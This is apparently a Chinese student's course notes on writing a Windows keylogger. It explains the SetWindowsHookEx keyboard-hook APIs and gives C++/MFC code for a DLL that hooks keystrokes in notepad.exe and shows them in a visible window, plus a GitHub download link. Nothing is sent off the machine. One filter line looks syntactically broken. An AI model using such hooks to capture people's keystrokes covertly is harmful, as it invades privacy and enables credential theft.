 ## 0x01 前言
这是我一门课程的期末答辩，做做笔记
## 0x02 相关API
### SetWindowsHookEx
将应用程序定义的钩子过程安装到钩子链中的，安装一个挂钩程序来监视系统的某些类型的事件
```c
HHOOK WINAPI SetWindowsHookEx(
  _In_ int       idHook,
  _In_ HOOKPROC  lpfn,
  _In_ HINSTANCE hMod,
  _In_ DWORD     dwThreadId
);
```
参数：
idHook: 要安装的挂钩过程的类型，这里等于WH_KEYBOARD。监视按键消息。
lpfn: 指明窗口准备处理一个消息时系统应该调用的函数地址。
hMod: 指明包含lpfn函数的dll。
dwThreadId: 挂钩过程与之关联的线程的标识符。线程标识符为0，表示挂钩过程应与与调用线程相同的桌面中的所有线程相关联

如果函数执行成功，返回挂钩过程的句柄。失败返回NULL。

### KeyboardProc
处理键盘消息的回调函数，原型：
```c
LRESULT CALLBACK KeyboardProc(
  _In_ int    code,
  _In_ WPARAM wParam,
  _In_ LPARAM lParam
);
```
参数：
code：确定如何处理消息的代码。如果代码小于零，挂钩过程必须将消息传递给CallNextHookEx函数，无需进一步处理，并应返回CallNextHookEx返回的值。 
wParam：生成按键消息的键的虚拟按键代码
lParam：重复计数，扫描码，扩展密钥标志，上下文代码，先前的密钥状态标志和转换状态标志。 

返回值：
如果code参数小于0，则必须返回CallNextHookEx的返回值。
如果code大于或等于零，并且挂接过程没有处理该消息，应该调用CallNextHookEx并返回返回的值;否则其他安装了WH_KEYBOARD钩子的应用程序将不会收到钩子通知，并可能会导致错误的行为。 如果挂钩过程处理了消息，它可能返回一个非零值，以防止系统将消息传递给其他钩链或目标窗口过程。

### CallNextHookEx
将钩子信息传递给当前钩子链中的下一个钩子过程。 挂钩过程可以在处理挂钩信息之前或之后调用此函数。
```c
LRESULT WINAPI CallNextHookEx(
  _In_opt_ HHOOK  hhk,
  _In_     int    nCode,
  _In_     WPARAM wParam,
  _In_     LPARAM lParam
);
```
### UnhookWindowsHookEx
卸载SetWindowsHook安装的钩子
```c
BOOL WINAPI UnhookWindowsHookEx(
  _In_ HHOOK hhk
);
```

## 0x02 程序编写

首先要写一个dll，SetWindowsHookEx会把dll注入目标进程。
包括一个获取模块句柄的函数
```cpp
HMODULE WINAPI ModuleFromAddress(PVOID pv)
{
	MEMORY_BASIC_INFORMATION mbi;
	if (::VirtualQuery(pv, &mbi, sizeof(mbi)) != 0)
	{
		return (HMODULE)mbi.AllocationBase;
	}
	else
	{
		return NULL;
	}
}
```
创建钩子
```cpp
BOOL HookStart()
{
	BOOL bol = 1;
	HookMsg = SetWindowsHookEx(WH_KEYBOARD, KeyboardProc, ModuleFromAddress(KeyboardProc), 0);
	if (HookMsg == NULL)
	{
		bol = 0;
	}
	return bol;
}
```
卸载钩子
```cpp
void HookStop()
{
	UnhookWindowsHookEx(HookMsg);
}
```
处理消息
```
LRESULT CALLBACK KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam)
{
	CHAR szBuf[128];
	HDC hdc;
	static int c = 0;
	size_t cch;
	HRESULT hResult;
	char szPath[MAX_PATH] = { 0 };
	char *p = NULL;
	GetModuleFileNameA(NULL, szPath, MAX_PATH);
	p = strrchr(szPath, '\\');
	
	if (nCode >= 0)     
	{
        if (!(lParam & 0x80000000)!_stricmp(p+1,PROCESS_NAME))  
        //代表按键松开，具体参考MSDN
        //这里过滤了一下要记录的程序名，PROCESS_NAME在代码开头被定义为"notepad.exe"
		{
			HWND hWnd = ::FindWindow(NULL, "键盘记录器");
			PostMessage(hWnd, HM_KEY, wParam, lParam);
			//给主窗口发送消息
			//return 1;
			//如果这里注释去掉，将拦截用户键盘消息，直到卸载钩子
		}
	}
	return CallNextHookEx(HookMsg, nCode, wParam, lParam);
}
```
新建MFC工程，主程序无非就是调用dll里面的函数了。注意要在BEGIN_MESSAGE_MAP里添加消息处理ON_MESSAGE(HM_KEY, OnHookKey)
MFC里主要代码如下：
```
void CMyHookDlg::OnBnClickedButton1()
{
	// TODO: 在此添加控件通知处理程序代码
	BOOL bol;
	bol = HookStart();
	if (!bol)
	{
		AfxMessageBox("安装失败");
	}
}


void CMyHookDlg::OnBnClickedButton2()
{
	// TODO: 在此添加控件通知处理程序代码
	HookStop();
}

LRESULT CMyHookDlg::OnHookKey(WPARAM wParam, LPARAM lParam)
{
	char szKey[80];
	::GetKeyNameText(lParam, szKey, 80);
	HWND hWnd = NULL;
	CString strItem;
	strItem.Format(" 用户按键：%s\r\n", szKey);
	// 添加到编辑框中
	CString strEdit;
	GetDlgItem(IDC_EDIT1)->GetWindowText(strEdit);
	GetDlgItem(IDC_EDIT1)->SetWindowText( strEdit+strItem);
	return 0;
}
```
## 0x03 下载源码及程序
[下载连接](https://github.com/h0rs3fa11/HOOK-.git)
